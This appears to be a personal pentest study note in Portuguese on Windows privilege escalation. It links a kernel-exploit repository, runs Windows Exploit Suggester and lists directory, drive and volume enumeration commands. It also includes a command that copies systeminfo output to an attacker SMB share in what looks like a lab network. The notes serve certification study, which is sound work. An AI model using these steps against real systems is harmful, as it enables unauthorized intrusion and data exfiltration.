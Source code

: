 ## Kernel exploitation

https://github.com/SecWiki/windows-kernel-exploits

    systeminfo > si.txt
    copy si.txt \\10.10.14.17\smb\si.txt

Na máquina do atacante
  
### Windows Exploit Suggester

    pip install wesng
    
    sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes
    
    wes --update
    dos2unix si.txt
    wes si.txt
  
Pesquisas no google

## DirectoryEnum

    gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
    cd c:\users
    dir
    #Tentar esta abordagem durante a prova pode ser mais interessante
    dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"

![qownnotes-media-PvAXBV](../media/qownnotes-media-PvAXBV.png)


Exemplos que não são exploráveis:

![qownnotes-media-QpQnUo](../media/qownnotes-media-QpQnUo.png)

![qownnotes-media-vflhHT](../media/qownnotes-media-vflhHT.png)



Verificar todas as pastas do(s) usuário(s):

    cd c:\users
    gci -recurse


    wmic logicaldisk get deviceid, volumename, description
    
    #powershelll
    powershell -c get-psdrive -psprovider filesystem

    mountvol
    
    Depois de enumerar, eh interessante montarmos o volume pra verificar se temos algo.

    mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\

## UserPrivileges
